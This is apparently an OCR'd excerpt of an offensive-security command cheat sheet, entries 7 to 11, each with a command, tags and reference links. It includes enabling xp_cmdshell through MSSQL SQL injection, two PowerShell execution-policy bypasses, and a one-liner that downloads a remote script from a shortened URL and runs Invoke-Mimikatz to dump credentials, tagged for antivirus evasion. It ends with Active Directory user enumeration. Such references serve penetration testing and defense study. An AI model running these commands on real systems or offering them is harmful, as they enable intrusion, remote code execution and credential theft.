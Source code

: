 https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 7. enable xp_cmdshell
```
exec sp_configure 'xp_cmdshell', 1 go reconfigure
```
**- web application,sql injection,shell,mssql**
#### References:

http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet
__________
### 8. powershell bypass block
```
Set-ExecutionPolicy unrestricted
```
**- Windows,powershell**
#### References:

https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 9. powershell bypass block
```
powershell.exe -noprofile -executionpolicy bypass
```
**- Windows,powershell**
#### References:

https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/
__________
### 10. Invoke mimicatz, can use with psexec for pwnage
```
powershell "IEX (New-Object Net.WebClient).DownloadString('http://bit.ly/1qMn59d'); Invoke-Mimikatz -DumpCreds"
```
**- passwords,Windows,av evasion,powershell**
#### References:

http://carnal0wnage.attackresearch.com/2013/10/dumping-domains-worth-of-passwords-with.html
https://github.com/clymb3r/PowerShell/tree/master/Invoke-Mimikatz
__________
### 11. Powershell password last changed, run on DC
```
Get-ADUser -filter * -properties * | sort-object passwordlastset | select-object samaccountname, passwordlastset, passwordneverexpires, homedirectory, mail, enabled | Export-csv -path c:\temp\pwprofile.csv
```
**- enumeration,user information,Windows,powershell**
#### References:
